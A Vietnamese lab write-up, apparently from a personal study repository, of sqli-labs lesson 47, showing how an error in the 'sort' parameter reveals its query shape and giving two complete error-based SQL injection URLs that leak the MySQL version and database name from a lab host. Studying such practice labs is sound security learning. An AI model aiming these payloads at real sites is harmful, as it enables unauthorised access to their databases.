






# Những việc làm được với lesson-47
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-47



Ta ghi giá trị vào 



Ta thêm giá trị đặc biệt thì ta sẽ thấy là sẽ có báo lỗi chứng tỏ rằng ta có thẻ sử dụng được error base để có thể truy vấn được dữ liệu của DB



1. Cấu trúc của Error base 
- Thì mỗi một câu truy vấn trong MYSQL có thể được sử dụng một cách khác nhau. Thì ở đây ta có thể tìm cấu trúc của nó 

Từ ảnh dưới đây ta đoán được cấu trúc truy vấn của giá trị sort 



```
sort='$sort'
```

2. Sử dụng error-base 
- Từ cấu trúc có được ta có thể sử dụng được error base 
```
192.168.80.225/sqli-labs/Less-47/?sort=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Tương tự như vậy ta có thể tìm ra được DB và tên các DB bằng cách thay đổi select như các lần trước mà ta đã làm 

```
192.168.80.225/sqli-labs/Less-47/?sort=1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



